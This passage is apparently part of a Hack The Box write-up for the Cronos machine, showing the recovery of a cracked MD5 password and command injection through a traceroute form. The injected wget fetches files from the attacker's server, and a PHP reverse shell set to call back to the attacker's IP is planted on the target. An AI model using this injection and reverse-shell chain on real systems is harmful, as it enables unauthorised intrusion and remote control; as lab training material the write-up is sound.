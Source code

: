 We check online and we found original password (1327663704):

https://md5.gromweb.com/?md5=4f5fffa7b2340178a716e3832451e058

This password is still no valid for SSH access with user "noulis", but obviously is working to access login form.

This time we try if we can use `wget` to download stuff from our attacking machine.

Let's create a simple text file "sugo" and spawn a Python web server:

```
root@kaligra:/opt/htb/Cronos# cat > sugo
test
```

```
root@kaligra:/opt/htb/Cronos# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

We put that string in "traceroute" form:

```
127.0.0.1 & wget http://10.10.16.2:8888/sugo
```

and it works:

```
root@kaligra:/opt/htb/Cronos# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.13 - - [22/Jan/2022 18:08:36] "GET /sugo HTTP/1.1" 200 -
```

We can confirm that we can put stuff on web server:

![Screenshot_2022-01-22_18-09-12](https://user-images.githubusercontent.com/42389836/150675407-e3f7ec6c-6441-48d0-8e65-6b053eadb222.png)


From there, we try to upload a PHP reverse shell.

We use the one from "pentestmonkey":

https://github.com/pentestmonkey/php-reverse-shell

We just need to configure our IP and port:

```
..
..
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.2';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
..
```

We use similar `wget` command and we are able to download our PHP shell from victim machine:

```
root@kaligra:/opt/htb/Cronos# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.13 - - [22/Jan/2022 18:12:21] "GET /sugo HTTP/1.1" 200 -
10.10.10.13 - - [22/Jan/2022 18:12:44] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```
